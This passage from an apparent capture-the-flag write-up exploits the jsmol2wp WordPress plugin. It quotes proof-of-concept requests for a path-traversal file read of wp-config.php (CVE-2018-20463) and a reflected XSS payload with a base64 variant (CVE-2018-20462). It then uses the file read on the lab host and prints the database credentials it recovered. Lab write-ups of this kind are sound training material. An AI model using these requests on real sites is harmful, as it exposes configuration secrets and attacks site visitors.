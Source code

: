 ```
POC:

http://localhost/wp-content/plugins/jsmol2wp/php/jsmol.php
?isform=true
&call=getRawDataFromDatabase
&query=php://filter/resource=../../../../wp-config.php

As you can see, this is also a simple SSRF.

Reflected XSS (CVE-2018-20462)
/wp-content/plugins/jsmol2wp/php/jsmol.php 157th line

Interestingly, the payload here can be encoded in BASE64, so it can bypass browser filtering.

POC:

http://localhost/wp-content/plugins/jsmol2wp/php/jsmol.php
?isform=true
&call=saveFile
&data=<script>alert(/xss/)</script>
&mimetype=text/html; charset=utf-8

Using Base64:

http://localhost/wp-content/plugins/jsmol2wp/php/jsmol.php
?isform=true
&call=saveFile
&data=PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4=
&mimetype=text/html; charset=utf-8
&encoding=base64

The report describes two vulnerabilities in a WordPress plugin called "jsmol2wp". The first vulnerability is an arbitrary file read and server-side request forgery (SSRF) vulnerability (CVE-2018-20463) which can be exploited by controlling the $query parameter of file_get_contents in the jsmol.php file. The second vulnerability is a reflected cross-site scripting (XSS) vulnerability (CVE-2018-20462) which can be exploited by encoding the payload in BASE64. The report provides proof-of-concept (POC) examples for each vulnerability.
```



This talks about an arbitrary file read, let's follow the PoC and visit 

`http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php`

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250127160431.png)

It indeed works, we got some credentials: `wpuser`:`kbLSF2Vop#lw3rjDZ629*Z%G`, we can test those credentials at: `http://www.smol.thm/wp-login.php`:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250127160614.png)
